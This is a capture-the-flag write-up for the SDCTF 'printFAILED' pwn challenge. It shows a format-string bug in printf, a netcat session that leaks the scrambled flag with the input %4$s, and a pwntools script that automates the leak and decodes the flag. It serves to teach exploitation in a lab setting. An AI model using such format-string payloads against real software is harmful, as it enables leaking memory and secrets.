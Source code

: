 # printFAILED

## Challenge

This challenge exists to teach some of the basic skills used in the PWN category, by using a challenge from last year's SDCTF as an example. If you follow along with the tutorial to solve the challenge yourself, you'll be given a new flag as proof of your efforts.

[Original Prompt](https://github.com/acmucsd/sdctf-2021/tree/main/pwn/printFailed)

[Video Tutorial](https://www.youtube.com/watch?v=gSLdg4mipYs)

Connect via ```nc printfailed.sdc.tf 1337```

By KNOXDEV

## Solution

The binary suffers from a format specifier vulnerability

```c
puts("you guessed: ");
printf(guess,main,scramble,FLAG_LEN,flag);
```

We see the scrambled string at the 4th offset and recognize ```scramble('sdctf')=tedug```

```
$ nc printfailed.sdc.tf 1337
can you guess the scrambled flag?
%4$s
you guessed: 
tedug|Ui2T`D1e4`jTOU`b`Gb2mVS4`2uT`b`MFBSOjoh`1qQPSUvo2uz~
```

We then can connect and unscramble the flag:

```python
from pwn import *

def leak_flag():
   p = remote('printfailed.sdc.tf',1337,level='error')
   p.sendline(b"%4$s")
   p.recvuntil(b'you guessed:')
   p.recvline()
   resp=p.recvline().strip(b'\n')
   return resp

def unscramble(resp):
   flag=''
   for i in resp:
      flag+=chr(i-1)
   print(flag) 

resp=leak_flag()
unscramble(resp)
```